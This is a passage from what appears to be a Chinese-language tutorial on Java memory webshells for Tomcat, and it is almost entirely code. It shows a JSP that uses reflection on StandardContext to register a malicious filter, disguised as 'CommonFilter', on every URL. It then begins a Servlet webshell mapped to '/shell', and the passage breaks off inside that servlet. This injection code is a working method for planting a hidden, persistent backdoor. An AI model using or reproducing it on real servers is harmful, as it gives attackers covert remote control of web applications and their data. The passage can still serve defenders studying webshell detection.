 ```java
                }
            }
            chain.doFilter(request, response);
        }
    }
%>
 
<%
    Shell_Filter filter = new Shell_Filter();
    String name = "CommonFilter";
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);
 
 
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);
 
 
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
 
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```

![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712725948950-4e53e76a-21d8-491c-a2d3-611e4e2e6d71.png)

## 4.3、Servlet型

实现恶意的`Servlet`马

```java
package com.ma.ServletMa;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import java.io.IOException;

@WebServlet("/shell")
public class ServletMa1 implements Servlet {
    @Override
    public void init(ServletConfig config) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
```